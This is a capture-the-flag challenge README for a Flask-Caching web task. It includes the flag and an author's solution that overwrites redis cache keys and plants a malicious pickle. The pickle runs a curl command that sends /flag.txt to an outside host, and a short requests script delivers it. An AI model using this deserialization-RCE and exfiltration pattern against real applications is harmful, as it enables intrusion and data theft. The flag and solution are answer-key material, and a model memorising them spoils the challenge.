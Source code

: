 # Flask-Caching

> Category: Web
> Suggested Points: 300
> Distribute: Dockerfile, app.py, supervisord.conf

# Description

I just found out about redis. Did you know you can use it to cache function responses?

# Deployment

Nothing fancy, just a single container with an internal port of 5000.

# Flag

flag{f1@sK_10rD}

# Solution

The [flask caching](https://pythonhosted.org/Flask-Caching/) library caches function responses 
for a specific amount of time. It pickles the response for a function, then stores it in redis.
The flask caching library calculates the redis key and value for the cached responses 
[here](https://github.com/sh4nks/flask-caching/blob/master/flask_caching/backends/rediscache.py#L103).
Because its just storing pickles in redis, if you can overwrite a redis key with a pickle, you're golden.

- The users can create notes where the title is mapped to the value in redis. This is how they overwrite the flask caching keys. 
- They can then pick one of the couple cached functions i've created say `/test1`. The flask caching lib will make its redis key `flask_cache_view//test1`.
- I do some simple find and replace filtering when creating the note to replace `flask_cache_view//` with an empty string. They need to do some variation of `flask_cache_viewflask_cache_view////` to get the intended key after the replace.
- They then need to construct the pickle. For python3 that would be using the `__reduce__` method on an object. The flask_caching library will only unpickle cached values that start with `!`, so we'll need to prepend that to the payload.

```python
import pickle
import os

class pwn(object):
    def __reduce__(self):
        return os.system, ('curl http://ctf-tools.osiris.cyber.nyu.edu:9999/ --data "$(cat /flag.txt)"',)
        
payload = b'!' + pickle.dumps(pwn())
```

- They should then upload a note with title `flask_cache_viewflask_cache_view////test1` with a file with key content that has the payload. Then go to the endpoint that calls the cached function `/test1`

```
import requests

requests.post(
    'http://localhost:5000/',
    files={"content": io.BytesIO(p)},
    data={"title": "flask_cache_viewflask_cache_view////test1"}
)
requests.get("http://localhost:5000/test1")
```


# Potential Breakage

- Redis being redis and exploding in ram
- Spamming note creation
